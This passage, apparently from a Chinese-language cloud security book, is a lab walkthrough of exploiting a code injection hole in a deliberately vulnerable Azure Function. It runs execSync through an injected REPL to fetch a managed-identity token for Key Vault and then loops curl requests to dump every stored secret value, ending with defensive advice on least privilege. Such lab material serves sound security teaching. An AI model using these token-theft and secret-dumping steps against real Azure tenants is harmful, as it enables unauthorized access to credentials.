| `sub` || 令牌的主体 |

| `tid` || 用户登录的租户 |

| `uti` || 唯一令牌标识符 |

| `ver` || 令牌的版本 |

6. 将检索到的 Azure 订阅 ID 存储在环境变量（`SUBSCRIPTION_ID`）中：

```
SUBSCRIPTION_ID="[SPECIFY SUBSCRIPTION ID]"
```

##### 提示

你可能需要在 Cloud Shell 终端中向上滚动以从 `tester.rb` 脚本在计算 `process.env["WEBSITE_OWNER_NAME"]?.split('+')[0]` 后的输出中定位并复制 Azure 订阅 ID。

7. 使用访问令牌查询订阅中的所有 Key Vault 并以 JSON 格式显示响应：

```
URL_1="https://management.azure.com/subscriptions/$SUBSCRIPTION_ID"
URL_2="providers/Microsoft.KeyVault/vaults?api-version=2022-07-01"
URL="$URL_1/$URL_2"

RESPONSE=$(curl -s -H "Authorization: Bearer $ACCESS_TOKEN" \
     -H "Content-Type: application/json" \
     $URL)

echo $RESPONSE | jq "."
```

这会产生以下输出：


```
{
  "value": [
    {
      "id": "/.../vaults/keyvault...",
      "name": "keyvault...",
      "type": "Microsoft.KeyVault/vaults",
      "location": "eastus",
      "tags": {},
      "systemData": {...},
      "properties": {
        "sku": {
          "family": "A",
          "name": "standard"
        },
        "tenantId": "...",
        "accessPolicies": [],
        "enabledForDeployment": false,
        "enableSoftDelete": true,
        "softDeleteRetentionInDays": 90,
        "enableRbacAuthorization": true,
        "vaultUri": "...",
        "provisioningState": "Succeeded",
        "publicNetworkAccess": "Enabled"
      }
    }
  ],
  "nextLink": "..."
}
```

##### 8. 从响应中提取 Key Vault 名称并将其存储在环境变量 (`KEYVAULT_NAME`) 中：

```
KEYVAULT_NAME=$(echo $RESPONSE | jq -r ".value.[].name")
```

##### 9. 使用你的访问令牌检索并显示 Key Vault 中的所有密钥：

```
URL="https://${KEYVAULT_NAME}.vault.azure.net/secrets?api-version=7.5"

curl -s -H "Authorization: Bearer $ACCESS_TOKEN" \
     -H "Content-Type: application/json" \
     $URL | jq .
```

这会返回以下错误信息：

```
{
  "error": {
    "code": "Unauthorized",
    "message": "AKV10022: Invalid audience. Expected ...,
                found: https://management.azure.com/."
  }
}
```

#### Note

该错误发生的原因是，你获取的访问令牌的范围是 Azure 管理 API (`https://management.azure.com/`)，而不是 Key Vault API (`https://vault.azure.net`)。换句话说，令牌的受众与 Key Vault 资源不匹配。要从 Key Vault 检索密钥，必须获取专门针对 Key Vault API 的访问令牌。^13

##### 10. 让我们再次运行 Ruby 脚本来获取新的访问令牌：

```
ruby tester.rb
```

##### 11. 在脚本的 REPL 中，在 `Enter an expression (or type 'exit' to quit)` 之后，运行以下单行命令以使用托管标识获取 Key Vault 访问令牌：

```
require("child_process").execSync(
   `curl -s -H "X-IDENTITY-HEADER: ${process.env.IDENTITY_HEADER}"
   "${process.env.IDENTITY_ENDPOINT}
   ?resource=https://vault.azure.net/&api-version=2019-08-01"`,
   { encoding: "utf8" }
);
```

以下是输出：

```
{
  "access_token": "...",
  "expires_on": "...",
  "resource": "https://vault.azure.net/",
  "token_type": "Bearer",
  "client_id": "..."
}
```

#### Caution

确保将命令作为单行连续运行，不要有任何换行，以防止出现错误。

输入 `exit` 并按 Enter 停止脚本并返回命令行。

##### 12. 将第二个访问令牌设置为环境变量 (`ACCESS_TOKEN_2`) 以供后续请求使用：

```
ACCESS_TOKEN_2="[SPECIFY ACCESS TOKEN]"
```

##### 13. 使用新的访问令牌列出 Key Vault 中的所有密钥并显示其元数据：

```
URL="https://${KEYVAULT_NAME}.vault.azure.net/secrets?api-version=7.5"

curl -s -H "Authorization: Bearer $ACCESS_TOKEN_2" \
     -H "Content-Type: application/json" \
     $URL | jq .
```

这会产生以下输出：

```
{
  "value": [
    {
      "id": "https://keyvault....vault.azure.net/secrets/secret00",
      "attributes": {
        "enabled": true,
        ...
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
      },
      "tags": {
        "file-encoding": "utf-8"
      }
    },
    {
      "id": "https://keyvault....vault.azure.net/secrets/secret01",
      "attributes": {
        "enabled": true,
        ...
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
      },
      "tags": {
        "file-encoding": "utf-8"
      }
    }
  ],
  "nextLink": null
}
```

这次，你能够成功从 Key Vault 检索密钥的元数据，因为使用的访问令牌的范围是 Key Vault 数据平面，而不是管理平面。

##### 14. 运行以下命令以使用访问令牌检索并显示 Key Vault 中的所有密钥：

```
SECRETS_RESPONSE=$(curl -s -H "Authorization: Bearer $ACCESS_TOKEN_2" \
     -H "Content-Type: application/json" \
     "https://${KEYVAULT_NAME}.vault.azure.net/secrets?api-version=7.5")

for SECRET_ID in $(echo "$SECRETS_RESPONSE" | jq -r '.value[].id'); do
    curl -s -H "Authorization: Bearer $ACCESS_TOKEN_2" \
         -H "Content-Type: application/json" \
         "${SECRET_ID}?api-version=7.5" | jq '{name: .id, value: .value}'
done
```

输出如下所示：

```
{
  "name": "https://keyvault....vault.azure.net/secrets/secret00/...",
  "value": "SECRETABC123"
}
{
  "name": "https://keyvault....vault.azure.net/secrets/secret01/...",
  "value": "SECRETDEF456"
}
```

#### Note

从这里开始，攻击者可以使用窃取的密钥访问依赖于这些密钥的其他服务或资源。

到目前为止，你应该更好地理解了过度宽松的托管标识以及易受攻击的函数代码如何将存储在 Key Vault 中的密钥暴露给攻击者。你了解到，即使使用了密钥管理服务，攻击者也可以利用应用程序代码或权限中的弱点来窃取密钥。

从防御安全角度来看，你应定期审查和限制访问权限，并为托管标识强制执行最小权限原则，以限制访问令牌被泄露时的潜在影响并降低对敏感资源进行未经授权访问的风险。此外，你应确保函数免受代码注入漏洞的保护，以便攻击者无法执行任意代码来窃取密钥或提升权限。

#### Caution

不要立即清理你的资源，因为它们将在 第 12 章 的动手示例和模拟中用到。

## Summary

在本节中，你探讨了攻击者如何利用在 Azure 上运行的无服务器应用程序中的配置错误和漏洞。你首先部署了一个易受攻击的 Azure 函数，并模拟了攻击者利用该函数中的代码注入漏洞。为了加快安全测试模拟，你创建并使用了一个自定义脚本，该脚本通过 REPL 自动发送恶意负载。你还在 Azure Key Vault 中存储了密钥，并研究了代码注入漏洞与过度宽松的托管标识结合起来如何被滥用来窃取这些密钥。

在下一节中，你将深入研究 Azure 中的权限提升，探讨与易受攻击的函数应用绑定的过度宽松托管标识如何被滥用。你将模拟提取函数应用的托管标识访问令牌，然后使用该令牌提升到 Owner 级别权限并从 Azure Key Vault 读取密钥。

^1 你可以在 [CLI 项目仓库](https://oreil.ly/FpXNT) 中了解更多关于 Azure CLI 的信息。

^2 由于 `$RANDOM` 的值每次调用时都会改变，如果你计划将其用作云资源名称的一部分，则应将其返回的数字存储在单独的变量中。


`Standard_LRS` 指的是本地冗余存储冗余选项。在此配置下，数据在单个 Azure 区域内复制三次，但不会跨区域复制。这可确保抵御硬件故障的耐久性，但不提供地理冗余。

如果您遇到 `MissingSubscriptionRegistration` 错误，请通过运行命令 `az provider register --namespace Microsoft.Web` 注册所需的资源提供程序。有关更多详细信息和故障排除指导，请参阅 [Microsoft 文档](https://oreil.ly/4BYHX)。

截至撰写本文时，Azure Functions v4 支持 Node.js 20 和 Node.js 22。您可以在 [“Azure Functions Runtime Versions Overview” 页面](https://oreil.ly/N5XVV) 上查看在创建函数应用时支持的语言和语言版本。

本章假设您使用的是 `func` 版本 4.0.X。更具体地说，本章中的动手示例是使用版本 4.0.7317 准备的。

在本章中，我们使用 Ruby 进行演示，但您可以使用任何您熟悉的编程语言，例如 Python。

如果您遇到 `MissingSubscriptionRegistration` 错误，请通过运行命令 `az provider register --namespace 'Microsoft.KeyVault'` 注册所需的资源提供程序。有关更多详细信息和故障排除指导，请参阅 [Microsoft 文档](https://oreil.ly/4BYHX)。

您可以在 [“Azure Role-Based Access Control (Azure RBAC) vs. Access Policies (Legacy)” 页面](https://oreil.ly/8QADb) 上查看更多信息。

*principal ID* 在 Azure 中唯一标识一个安全主体，例如托管标识，用于在分配和管理资源权限时使用。

有关 Azure Key Vault RBAC 和内置角色的更多详细信息，请参阅 [Azure RBAC guide](https://oreil.ly/PFrQy)。

本章假设您使用的是 `@azure/identity` `⁴.12.0` 和 `@azure/keyvault-secrets` `⁴.10.0`。

这反映了 Azure 中管理平面和数据平面之间的差异。*管理平面* 处理创建或配置资源等操作。*数据平面* 处理对资源实际内容的实际操作，例如在 Key Vault 中读取或写入密钥。访问令牌的范围取决于您想要交互的平面而有所不同。
